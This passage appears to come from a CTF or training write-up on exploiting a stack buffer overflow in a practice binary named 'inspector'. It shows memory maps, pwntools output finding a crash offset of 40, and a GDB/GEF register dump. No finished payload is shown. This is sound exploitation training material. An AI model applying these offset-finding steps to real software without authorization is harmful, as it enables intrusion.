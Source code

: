 ```
0x00007ffff7ff1000 0x00007ffff7ffb000 0x0000000000026000 r-- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffff7ffb000 0x00007ffff7ffd000 0x0000000000030000 r-- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000032000 rw- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```
So read/writes are at
```
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/kali/Desktop/6-Week/inspector
0x00007ffff7dc8000 0x00007ffff7dcb000 0x0000000000000000 rw- 
0x00007ffff7f9e000 0x00007ffff7fa0000 0x00000000001d3000 rw- /usr/lib/x86_64-linux-gnu/libc.so.6
0x00007ffff7fa0000 0x00007ffff7fad000 0x0000000000000000 rw- 
0x00007ffff7fc3000 0x00007ffff7fc5000 0x0000000000000000 rw- 
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000032000 rw- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```
### Finding Offsets
Fault offset:
```
┌──(kali㉿kali)-[~/Desktop/6-Week]
└─$ python3 Inspector_Pwn.py 
[+] Starting local process './inspector': pid 10570
[*] Process './inspector' stopped with exit code -11 (SIGSEGV) (pid 10570)
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/6-Week/core.10570'
    Arch:      amd64-64-little
    RIP:       0x400678
    RSP:       0x7ffd0d8eeb38
    Exe:       '/home/kali/Desktop/6-Week/inspector' (0x400000)
    Fault:     0x6161616c6161616b
[*] rsp = 0x7ffd0d8eeb38
[*] offset = 40
```

Registers/Stack Data
```
┌──(kali㉿kali)-[~/Desktop/6-Week]
└─$ gdb ./inspector -q
GEF for linux ready, type `gef' to start, `gef config' to configure
gef➤  r < inp

I'm not even pretending this isn't a stack-smash anymore. Please pop a shell!
Program received signal SIGSEGV, Segmentation fault.
0x0000000000400678 in main ()

$rax   : 0x0               
$rbx   : 0x00007fffffffded8  →  0x00007fffffffe247  →  "/home/kali/Desktop/6-Week/inspector"
$rcx   : 0x00007ffff7f9eaa0  →  0x00000000fbad2098
$rdx   : 0x0               
$rsp   : 0x00007fffffffddc8  →  "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00000000006022a0  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$rdi   : 0x00007ffff7fa0a40  →  0x0000000000000000
$rip   : 0x0000000000400678  →  <main+46> ret 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x1000            
$r11   : 0x246             
$r12   : 0x0               
$r13   : 0x00007fffffffdee8  →  0x00007fffffffe26b  →  "COLORFGBG=15;0"
$r14   : 0x0               
```
